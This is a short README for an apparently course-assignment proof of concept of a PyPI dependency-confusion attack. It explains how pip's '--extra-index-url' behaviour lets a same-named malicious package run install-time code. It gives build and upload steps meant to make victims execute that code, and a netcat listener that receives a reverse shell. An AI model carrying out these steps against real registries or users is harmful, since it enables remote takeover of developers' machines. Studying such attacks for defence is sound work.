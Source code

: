 # Explanation:

It's important to be aware that packages installation via `pip install` command have the ability to execute python code as part of the install process. For CMPT785 course assignment2 poc usage - requirements.txt has `--extra-index-url` to point to private registry but pip install will check Pypi first. By uploading malicious package with the same name in Pypi, program will download the malicious version and pip install can give a reverse shell to the attacker.



### Build the package:

1. Install the package build process dependencies

​	`python -m pip install --user --upgrade setuptools wheel twine`

2. cd to the directory of setup.py, use this command to build the package

​	`python setup.py sdist bdist_wheel`

3. After build, remember either remove the `.whl` file from `/dist` folder or during the upload process, only upload the `.tar.xz` one. The reason is that we want victims' to build the package themselves in order to get the malicious code execute on victims' machine.  

​	`twine upload dist/*.tar.xz`

4. It will prompt you to enter your username and password in Pypi.org



### Simulate the attack:

Two terminal windows. (If two machines, change the code in setup.py)

Attacker: Listen on 1234 port with netcat`nc -lvp 1234`

Victim: Execute pip install command`pip install much_needed_py_package`

We can see in attacker's window, a reverse shell is estatblished.

![CleanShot 2023-04-08 at 23 18 14](https://user-images.githubusercontent.com/26541990/230758877-3ee9c521-3490-485d-b389-1d543e7c1719.png)

